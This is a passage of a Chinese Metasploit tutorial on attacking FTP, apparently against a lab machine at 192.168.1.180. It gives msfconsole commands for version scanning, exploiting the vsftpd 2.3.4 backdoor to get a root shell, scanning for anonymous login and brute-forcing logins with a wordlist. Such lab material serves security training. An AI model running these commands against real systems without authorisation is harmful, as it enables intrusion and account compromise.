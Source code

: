 ##### 基于 FTP 协议收集信息

######  查看 ftp 服务的版本信息

> ```
> 	#加载 ftp 服务版本扫描模块
> msf6 > use auxiliary/scanner/ftp/ftp_version
> msf6 auxiliary(scanner/ftp/ftp_version) > show options		#查看设置参数
> msf6 auxiliary(scanner/ftp/ftp_version) > set RHOSTS 192.168.1.180		#设置目标 IP，可以设置多个
> msf6 auxiliary(scanner/ftp/ftp_version) > run
> 	#扫描出结果是：vsFTPd 2.3.4
> msf6 auxiliary(scanner/ftp/ftp_version) > back
> 	#扫描出 ftp 服务的版本号，我们可以尝试搜索版本号，看看有没有可以利用的模块
> msf6 > search 2.3.4
> 	#或者搜索 vsftpd
> msf6 > search vsftpd
> 	#我们发现存在一个 exploit 模块，而且这个版本的 ftp 服务存在一个后门
> 	#我们尝试利用下这个模块
> msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
> msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
> msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.180
> msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
> 	#拿到了 shell，而且是 root 权限，我们尝试执行下命令
> 	#执行 id 命令， 查看当前用户
> 	#执行 ifconfig 命令，查看 IP 地址
> ```

###### ftp 匿名登录扫描

> ```
> msf6 > use auxiliary/scanner/ftp/anonymous
> msf6 auxiliary(scanner/ftp/anonymous) show options
> msf6 auxiliary(scanner/ftp/anonymous) > set RHOSTS 192.168.1.180
> msf6 auxiliary(scanner/ftp/anonymous) > run
> ```

######  ftp 暴力破解

> ```
> msf6 > use auxiliary/scanner/ftp/ftp_login
> msf6 auxiliary(scanner/ftp/ftp_login) > show options
> msf6 auxiliary(scanner/ftp/ftp_login) > set RHOSTS 192.168.1.180
> 	#设置字典文件默认的字典文件是不满足实际需求的后期我们使用更强大的字典文件。
> msf6 auxiliary(scanner/ftp/ftp_login) > set USERPASS_FILE /usr/share/metasploitframework/data/wordlists/root_userpass.txt
> 	#为字典文件中不包含我们的用户密码信息我们把自己的密码信息手动加入进去以便展示效果
> 	#新开一个终端窗口
> echo "msfadmin msfadmin" >> /usr/share/metasploitframework/data/wordlists/root_userpass.txt
> 	#回到 MSF 终端
> msf6 auxiliary(scanner/ftp/ftp_login) > run
> ```